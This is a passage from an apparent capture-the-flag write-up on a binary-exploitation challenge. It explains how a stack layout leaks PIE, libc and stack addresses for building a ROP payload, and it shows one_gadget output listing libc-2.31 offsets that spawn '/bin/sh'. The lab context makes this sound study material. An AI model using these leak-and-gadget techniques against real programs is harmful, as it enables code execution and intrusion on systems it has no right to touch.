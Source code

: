 ![Stack frame inside main](/assets/images/posts/pwn_manager/HTBBCTF10.png)

The stack layout is ideal! We have our intended array data (1), then 
**immediately** afterwards, there's the address of *csu_init* (2), a function 
that's part of the PIE binary, called during initialisation. Immediately after 
that is an address for *start_main* from libc (3), followed shortly by a stack 
address (4). This should be more than enough data, if leaked, to build most 
kinds of ROP payload. 

### What do we need to leak?

If there's an easy way to do this, let's do it. Taking a look at this libc 
version with one_gadget, we see there are a few viable single address gadgets:

```bash
~$ one_gadget ./libc-2.31.so
0xe6c7e execve("/bin/sh", r15, r12)
constraints:
  [r15] == NULL || r15 == NULL
  [r12] == NULL || r12 == NULL

0xe6c81 execve("/bin/sh", r15, rdx)
constraints:
  [r15] == NULL || r15 == NULL
  [rdx] == NULL || rdx == NULL

0xe6c84 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL
```

